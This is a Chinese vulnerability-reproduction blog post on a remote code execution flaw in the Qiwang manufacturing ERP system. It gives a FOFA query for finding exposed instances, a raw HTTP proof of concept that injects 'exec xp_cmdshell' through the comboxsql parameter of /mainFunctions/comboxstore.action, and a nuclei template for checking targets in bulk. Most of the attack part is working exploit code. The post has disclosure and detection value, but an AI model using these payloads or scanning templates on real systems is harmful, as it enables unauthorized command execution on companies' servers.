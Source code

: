 # 原创
：  漏洞复现--企望制造ERP系统 RCE

# 漏洞复现--企望制造ERP系统 RCE

## 免责声明：

**文章中涉及的漏洞均已修复，敏感信息均已做打码处理，文章仅做经验分享用途，切勿当真，未授权的攻击属于非法行为！文章中敏感信息均已做多层打马处理。传播、利用本文章所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任，一旦造成后果请自行负**

### 一：漏洞描述

企望制造ERP系统是畅捷通公司开发的一款领先的生产管理系统，它以集成化管理为核心设计理念，通过模块化机制，帮助企业实现生产、采购、库存等方面的高效管理。该产品comboxstore.action接口存在RCE风险。

### 二：漏洞影响版本

企望制造ERP

### 三：网络空间测绘查询

fofa：<br/> `title="企望制造ERP系统"`<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/dcb267f69463704f2708a4338df798a3.jpeg"/>

### 四：漏洞复现

POC：

```
POST /mainFunctions/comboxstore.action HTTP/1.1
Host: IP
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/117.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: JSESSIONID=ADF9CC6DC882489E063DFAC2420182FF
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 39

comboxsql=exec%20xp_cmdshell%20'whoami'

```

<img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/bba5b34571e7509b0a4805f89e8762d7.jpeg"/><br/> 访问/mainFunctions/comboxstore.action<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/a9c7dfe4b1143f1fbd78ffc2b81a0dbc.jpeg"/><br/> 存在如上页面即可能存在漏洞<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/914181c178e4ef1637a6cf17fbbc8ca7.jpeg"/>

### 五：批量验证

nuclei：

```
id: qiwang-erp-comboxstore-rce

info:
  name: qiwang-erp-comboxstore-rce
  author: yy
  severity: critical
  description: SQL注入，可调用xp_cmdshell执行命令
  tags: qiwang,erp,,sqli,rce
  metadata:
    fofa-qeury: title="企望制造ERP系统"
    veified: true
    max-request: 1

http:
  - raw:
      - |
        POST /mainFunctions/comboxstore.action HTTP/1.1
        Host: 
        User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/117.0
        Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
        Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
        Accept-Encoding: gzip, deflate
        Content-Type: application/x-www-form-urlencoded
        Connection: close
        Upgrade-Insecure-Requests: 1
        Content-Length: 43

        comboxsql=exec%20xp_cmdshell%20'echo hello qiwang erp'

    matchers-condition: and
    matchers:
      - type: status
        status:
          - 200

      - type: word
        words:
          - 'hello'
          - 'qiwang erp'
        condition: and
        part: body

```

脚本来自揽月安全团队<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/d53601d5ed00077a7ee47b85ae6055db.jpeg"/>
